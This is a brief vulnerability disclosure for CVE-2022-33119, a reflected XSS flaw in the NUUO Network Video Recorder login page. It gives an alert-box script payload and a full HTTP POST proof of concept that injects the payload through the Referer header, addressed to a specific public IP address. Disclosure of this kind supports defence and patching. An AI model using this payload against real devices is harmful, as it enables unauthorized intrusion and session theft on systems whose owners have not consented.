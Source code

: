 # CVE-2022-33119  
# NUUO Network Video Recorder Login page login.php is Reflected XSS attack


## Affected firmware

Firmware Version: 03.06.02	


## payload 
```
"><script>alert("XSS")</script><"
```

## The effect

![image](https://user-images.githubusercontent.com/72059221/173171676-271f80f5-2abb-46c6-b0a7-91a139360baa.png)


![image](https://user-images.githubusercontent.com/72059221/173171694-a047b8d8-fca8-4e9b-9d36-e63d27f45524.png)

## POC

```
POST /login.php HTTP/1.1
Host: 218.253.76.122:8000
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://218.253.76.122:8000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: "><script>alert("XSS")</script><"
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: lang=en; PHPSESSID=b630e0a3b454ae69c6aacbe257435b55
Connection: close

language=11111&user=111&pass=222&submit=Login
```

